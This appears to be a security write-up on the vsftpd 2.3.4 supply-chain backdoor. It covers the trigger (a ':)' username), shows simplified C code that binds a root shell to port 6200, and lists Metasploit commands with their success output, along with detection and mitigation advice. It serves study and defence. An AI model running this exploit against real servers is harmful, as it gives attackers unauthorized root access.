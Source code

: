 # vsftpd 2.3.4 Backdoor Vulnerability

## Overview
The `vsftpd 2.3.4` backdoor vulnerability is a **deliberate backdoor** introduced into a **trojanized version** of the `vsftpd` (Very Secure FTP Daemon) source code. This backdoor was **not a coding mistake**, but a **malicious modification** uploaded to the main distribution server in July 2011.

When exploited, it results in a **root shell being spawned** on the affected system and **bound to TCP port 6200**.

---

## Root Cause
The vulnerability is not a buffer overflow or traditional code bug. It is a result of **malicious logic added to the vsftpd source code**.

The altered code checks for usernames that contain the smiley face `:)`. If this condition is met, a shell is spawned and a socket is opened on **TCP port 6200**.

### Malicious Code Logic (Simplified)
```c
if (strstr(user_input, ":)") != NULL) {
    int sock = socket(...);
    bind(sock, 6200);
    listen(sock, 1);
    ...
    dup2(client_fd, 0); dup2(client_fd, 1); dup2(client_fd, 2);
    execve("/bin/sh", ...);
}
```

---

## Exploitation Details

### Prerequisites
- Target is running the **backdoored version of vsftpd 2.3.4** (not the official source).
- Attacker has **network access** to the FTP port (usually 21).

### Exploit Behavior
1. The attacker connects to the FTP server and sends a **username** containing `:)`.
2. The server triggers the backdoor logic.
3. A **shell is spawned** and listens on TCP **port 6200**.
4. The attacker then connects to `port 6200` to gain **root access** to the system.

### Metasploit Module
Path: `exploit/unix/ftp/vsftpd_234_backdoor`

Usage:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target IP>
set RPORT 21
exploit
```

If successful:
```
[*] Backdoor service has been spawned, handling...
[*] Found shell.
[*] Command shell session opened...
```

---

## Detection & Analysis

### Manual Check
- Use `nmap` to identify vsftpd 2.3.4:
```bash
nmap -sV -p 21 <target>
```

- Use `Wireshark` to inspect outgoing connections from the victim to TCP port 6200.
Filter:
```
ip.addr == <victim_IP> && tcp.port == 6200
```

### Indicators of Compromise (IoC)
- Presence of `vsftpd 2.3.4` with checksum mismatch.
- Unexpected service listening on **port 6200**.
- Suspicious shell traffic over unusual ports.

---

## Mitigation
- Replace the `vsftpd` binary with a trusted version (e.g. from official package managers).
- Block outbound traffic to untrusted destinations (especially port 6200).
- Conduct forensic analysis if compromise is suspected.

---

## Real-World Impact

While no widespread attacks were publicly documented, the backdoor in vsftpd 2.3.4 provided a real root shell via TCP 6200. A limited number of systems that compiled the trojanized version were likely exposed. This case raised global awareness of the risks in open-source distribution and software supply chains.

---

## Summary
The `vsftpd 2.3.4` backdoor is a notorious example of **software supply chain compromise**. It emphasizes the need for:

- Verifying file integrity (checksums, GPG signatures)
- Monitoring for unusual port usage (e.g. TCP 6200)
- Avoiding unofficial or outdated software sources

This backdoor is **not a traditional vulnerability**. It is a stark reminder that trust in software distribution can be exploited maliciously.

A full reproduction of this vulnerability is available in the following lab report:

👉 [metasploit-vsftpd-exploit.md – pentest-labs GitHub repository](https://github.com/lorenzococcia/pentest-labs/blob/tools/metasploit/metasploit-vsftpd-exploit.md) It is a stark reminder that trust in software distribution can be exploited maliciously.

